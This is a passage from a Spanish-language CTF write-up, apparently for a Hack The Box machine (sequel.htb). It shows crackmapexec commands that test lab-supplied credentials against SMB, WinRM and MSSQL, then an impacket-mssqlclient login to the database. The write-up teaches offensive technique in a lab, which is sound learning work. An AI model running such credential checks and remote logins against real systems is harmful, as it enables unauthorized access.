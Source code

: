 ## Acceso MSSQL 

Como en el CTF se nos proporcionan unas credenciales podemos probar a verificar con que servicios se puede acceder.
```bash
crackmapexec smb 10.10.11.51 -u 'sequel.htb\rose' -p 'KxEPkKe6R8su'
crackmapexec winrm 10.10.11.51 -u 'sequel.htb\rose' -p 'KxEPkKe6R8su'
crackmapexec mssql 10.10.11.51 -u 'sequel.htb\rose' -p 'KxEPkKe6R8su'
```
Entre estas opciones encontramos que el servicio MSSQL es accesible.

```bash
impacket-mssqlclient sequel.htb/rose:KxEPkKe6R8su@10.10.11.51 -windows-auth
```
[![SQL](/assets/img/posts/escapeTwo/sql_rose.png)](/assets/img/posts/escapeTwo/sql_rose.png)
